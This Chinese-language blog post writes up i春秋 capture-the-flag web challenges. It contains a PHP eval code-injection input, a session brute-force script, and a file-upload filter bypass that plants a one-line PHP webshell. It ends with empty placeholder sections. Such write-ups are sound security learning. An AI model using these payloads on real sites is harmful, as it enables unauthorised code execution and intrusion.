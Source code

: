 ```yaml
---
title: i春秋-CTF-Write-Up
date: 2018-03-23 20:53:29
categories: Write Up
tags:
 - ctf
 - wp
description:
---
```

记录在i春秋中的艰辛历史...
[i春秋CTF大本营](https://www.ichunqiu.com/battalion)
<!-- more -->
### 爆破-1
```php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
```
进入页面看见代码，正则过滤死了，只能输入英文字母和下划线。所以不能拼接字符串失败进行代码注入。
就可以尝试猜测变量，来获取想要看的内容。
直接传递`hello=flag`试试，发现提示`flag在一个长度为6的变量里面`。这样的话除非是纯数字，不然很不好爆破。
然后想到`$GLOBALS`，可以打印出所有全局变量。
尝试`hello=GLOBALS`。得到flag

<br>
### 爆破-2

```php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
```
没有正则过滤，直接拼接字符串就可以实现代码注入。
`hello=);print_r(file('flag.php')`，最后凭借的结果就是`eval( "var_dump(hello=);print_r(file('flag.php'));");`
直接打印`flag.php`的内容。




### 爆破-3
```php
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}
// 2分钟会销毁Session
if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
// 创建a-z的数组
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

// md5函数传入的是一个数组，所以返回为NULL，NULL==0  返回true
if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands; // 注意这，他把第二次随机的值输出了，所以我们可以拿到这个值去来作为下次提交参数
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
```
根据代码审计分析，最后写出爆破脚本(手工也是可以的)
```python
import requests


s = requests.Session()
url = "http://844c147e18614b3faab54a4662ac7776e86ece97eaf44f07.game.ichunqiu.com/?value[]=ea"
content = s.get(url).text
for i in range(11):
    url = "http://844c147e18614b3faab54a4662ac7776e86ece97eaf44f07.game.ichunqiu.com/?value[]={0}"
    url = url.format(content[0:2])
    content = s.get(url).text
    print(content)
```




<br>

### Upload
进入页面是一个上传界面，然后大概看下，直接上传一个正常的文件，发现上传成功。
并且页面中会返回你上传到哪里的链接，但是放很猥琐的(所以我开始没找到)

那么直接上传一个PHP看下有没有限制，发现直接上传成功。
但是访问的时候内容被过滤了。过滤了`<?`和`php`利用重写无法绕过，但是可以大小写PHP来达到绕过条件。
那么`<?`在利用一种其他的方式来代替`<script language='PHP'></script>`同样也可以
那么写入自己的一句话，最后的payload为`<script language='PHP'>$_POST[a]</script>`
菜刀连接，得到flag

<br>

### 1


<br>

### 1


<br>
